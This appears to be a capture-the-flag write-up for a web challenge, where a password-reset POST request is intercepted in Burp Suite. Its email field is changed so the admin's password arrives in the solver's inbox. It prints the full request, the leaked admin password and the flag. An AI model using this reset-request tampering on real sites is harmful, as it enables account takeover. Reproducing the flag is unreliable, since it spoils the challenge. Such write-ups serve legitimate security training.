 
# Let me INNNNNN

## Challenge
* Category: Web Security
* Points: 40

Let's see if you can break into our [secure vault](http://challenge.acictf.com:45104/).

### Hints
* How is the email determined for the password resending?


## Solution

### Tools
* Burp Suite

Ok. Access the Website referenced in secure vault. There is a link to reset password.

We are going to intercept this `POST` request using Burp Suite.

Examine the contents of the `POST` in Burp Suite

```
POST /resend HTTP/1.1
Host: challenge.acictf.com:45114
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://challenge.acictf.com:45114/login.html
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Connection: close

email=vault.master%40cyberstakes.club
```

Lets change that to our personal email address and forward the request in Burp Suite.


Now go check your personal email.

```
Admin <vault.master@cyberstakes.club>
Fri 4/24/2020 6:29 PM
Admin,

Here is the password to enter the vault.  Do not share this with anyone, enjoy your stay.

PW: 4MYIC21aZw0SeBqN708UnYWdtPb69uqp


http://challenge.acictf.com:45114/admin
```


Follow the link and Login as Admin to get the flag

**ACI{a44af2fa351126dd}**
